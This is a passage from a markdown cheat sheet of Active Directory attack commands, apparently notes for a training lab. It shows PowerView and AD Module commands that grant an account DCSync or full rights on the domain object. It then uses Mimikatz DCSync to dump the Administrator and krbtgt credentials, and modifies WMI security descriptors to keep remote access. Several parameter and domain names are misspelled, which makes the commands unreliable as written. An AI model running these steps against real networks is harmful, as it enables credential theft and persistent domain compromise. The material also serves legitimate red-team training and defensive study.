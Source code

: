 > > > > Add-ObjectACL -TargetDistinguishedNAme 'DC=dollarcorp,DC=monrycorp,DC=local' -PrincipaleSamAccountNAme <AccountNAme> -Rights All -Verbose
> > > > ```
> > > >
> > > > **OR** add **DCSync** rights only 
> > > >
> > > > > ```
> > > > > Add-ObjectACL -TargetDistinguishedNAme 'DC=dollarcorp,DC=monrycorp,DC=local' -PrincipaleSamAccountNAme <AccountNAme> -Rights DCSync -Verbose
> > > > > ```
> > >
> > > :nine::b: :two: **AD Module**
> > >
> > > > ```
> > > > Set-ADACL -DistinguishedNAme 'DC=dollarcorp,DC=monrycorp,DC=local' -Principale <accountNAme> -Verbose
> > > > ```
> > > >
> > > > **OR** add **DCSync** rights only 
> > > >
> > > > > ```
> > > > > Set-ADACL -DistinguishedNAme 'DC=dollarcorp,DC=monrycorp,DC=local' -Principale <accountNAme> -GUIDRight DCSync -Verbose
> > > > > ```
> > >
> > > :nine: :b: :runner:**Abuse**
> > >
> > > > :a: `Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\Administrator"'`
> > > >
> > > > :b: `Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'`
> >
> > :nine:**C** ***Modify Security Descriptor of multiple remote access methods***
> >
> > > :information_source: Domain Administrative privileges are required 
> > >
> > > :bulb: Security Descriptor Definition Language **SDDL** use **ACE strings** 
> > >
> > > :information_desk_person: ACE for built-in **Administrator** for WMI namespace `A;CI;CCDCLCSWRPWPRCWD;;;SID`
> > >
> > > :bulb: Two point of interest here are : COM security Component ACL in `component services` including subsequences namespaces and Namespace in  ACL `computer management`
> > >
> > > **Test Payload**  
> > >
> > > ```
> > > Get-WMIobject -class win32_operatingsystem -ComputerName <domainFQDN> 
> > > ```
> > >
> > > > **ACL modification**
> > > >
> > > > > ```
> > > > > . .\Set-RemoteWMI.ps1
> > > > > ```
> > > > >
> > > > >  **Add permissions - Run on Local Machine**
> > > > >
> > > > > >  ```powershell
> > > > > > Set-RemoteWMI -UserNAme <username> -Verbose
> > > > > >  ```
> > > > >
> > > > > **Add permissions - Run on remote machine **
> > > > >
> > > > > > ```powershell